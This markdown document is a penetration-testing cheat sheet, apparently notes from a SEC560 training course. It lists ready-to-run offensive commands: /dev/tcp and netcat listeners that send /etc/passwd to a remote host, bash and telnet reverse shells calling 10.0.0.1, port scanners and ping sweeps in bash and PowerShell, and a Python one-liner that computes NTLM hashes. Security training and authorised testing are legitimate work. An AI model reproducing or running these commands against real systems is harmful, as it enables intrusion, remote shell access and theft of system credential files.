 # Resources referenced during SEC560 classes


## Day 2

### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:

    PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
    1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:

    21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:

    python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'





## Credits
* Ed Skoudis
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* egre55 and mrh4sh from hackthebox.eu

